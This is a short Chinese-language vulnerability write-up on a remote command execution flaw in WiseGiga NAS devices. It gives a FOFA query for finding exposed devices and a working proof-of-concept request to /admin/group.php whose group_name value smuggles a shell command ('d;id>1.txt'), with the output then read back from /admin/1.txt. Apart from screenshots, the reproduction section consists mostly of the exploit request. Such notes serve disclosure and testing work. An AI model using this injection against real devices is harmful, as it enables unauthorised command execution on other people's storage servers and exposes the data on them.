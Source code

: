 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## FOFA

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281144970.png)

验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![image-20220628114731029](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281147112.png)

```
/admin/1.txt
```

![image-20220628114740534](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281147595.png)